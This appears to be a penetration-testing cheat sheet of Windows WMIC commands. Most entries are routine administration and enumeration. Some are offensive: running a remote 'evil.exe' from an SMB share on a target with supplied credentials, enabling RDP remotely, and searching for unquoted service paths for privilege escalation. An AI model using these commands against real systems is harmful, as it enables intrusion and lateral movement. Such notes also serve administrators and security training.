 #wmic: lis all #updates
`wmic qfe`
`wmic qfe get Caption,Description,HotFixID,InsatalledOn`

#wmic: list all #disks
`wmic logicaldisk get caption,description,providername`

#wmic: list all #attributes  
`wmic [alias] get /?`
  
#wmic: callable #methods  
`wmic [alias] call /?`
  
#wmic: process #attributes  
`wmic process list full`
  
#wmic: starts wmic #service  
`wmic startupwmic service`  
  
#wmic: domain and #DC info  
`wmic ntdomain list`  
  
#wmic: list all #patches  
`wmic qfe`  
  
#wmic: execute #process  
`wmic process call create "process_name"`  
  
#wmic: terminate #process  
`wmic process where name="process" call terminate`  
  
#wmic: view logical #shares  
`wmic logicaldisk get description,name`  
  
#wmic: display 32 || 64 bit  
`wmic cpu get DataWidth /format:list`  
_alias: process, share, startup, service, niconfig, useraccount, etc._
  
#wmic: execute file hosted over SMB on remote system with specified #credential  
`wmic /node:<targetiP> /user:domain\user /password:password process call create "\\<smbiP>\share\evil.exe"`
  
#wmic: get #software names  
`wmic product get name /value`  
`wmic product where name="XXX" call uninstall /nointeractive`  
  
#wmic: remotely determine #logged in #user  
`wmic /node:remotecomputer computersystem get username`  
  
#wmic: remote process listing every second  
`wmic /node:machinename process list brief /every:1`  
  
#wmic: remotely start #RDP  
`wmic /node:"machinename 4" path Win32_TerminalServiceSetting where AllowTSConnections="0" call SetAllowTSConnections "1"`  
  
#wmic: list numbers of times user #logged in  
`wmic netlogin where (name like "%adm%") get numberoflogons`  
  
#wmic: search for services with #unquoted paths to binary  
`wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """`